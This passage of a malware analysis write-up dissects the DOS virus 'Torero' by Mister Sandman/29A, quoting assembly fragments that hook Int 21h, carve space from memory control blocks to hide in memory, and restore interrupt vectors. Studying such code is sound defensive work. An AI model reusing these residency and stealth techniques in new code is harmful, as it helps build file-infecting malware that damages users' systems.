     -   This part of the code manages the infection of opened files by injecting the virus's code into them.
8.  **Virus Signature**:
    
    -   The virus includes a signature, likely used by its creator for identification.

```
signature       db      0dh,0ah,'[Torero :-) by Mister Sandman/29A]',0dh,0ah

```

9.  **Cleanup and Closure**:
    
    -   After performing its actions, the virus restores the original interrupt vectors and performs cleanup before returning control to the system or host application.

```
; Hide in memory block
mov     byte ptr ds:[di], 'Z'        ; Mark block as Z (hidden)

; Cleanup and restoring original interrupt vectors
...
mov     word ptr [si-4], offset old_int_21h
mov     word ptr [si-2], ax          ; Restore original Int 21h

```

### System Interrupt Interception

#### Interrupt 21h Setup

```
set_int_21h:    mov     ax,es
                dec     ax
                mov     ds,ax                       ; Set DS to the segment before ES
```

-   The virus adjusts the Data Segment (DS) register to point to a specific memory location, likely where it plans to store or retrieve data.

```
xor     di,di
cmp     byte ptr ds:[di],'Y'        ; Check if it's a 'Z' MCB (Memory Control Block)
jna     set_int_21h
```

-   It's checking the Memory Control Block (MCB) to find a specific block. This is part of how the virus finds a suitable place in memory.

```
sub     word ptr ds:[di+3],((torero_size/10h)+2)
sub     word ptr ds:[di+12h],((torero_size/10h)+2)
```

-   The virus adjusts memory control blocks to make space for itself, effectively hiding in memory.

```
add     ax,word ptr ds:[di+3]
inc     ax
mov     ds,ax
mov     byte ptr ds:[di],'Z'        ; Mark the block as 'Z', indicating it's used
mov     word ptr ds:[di+1],8        ; Mark it as system memory
 ```
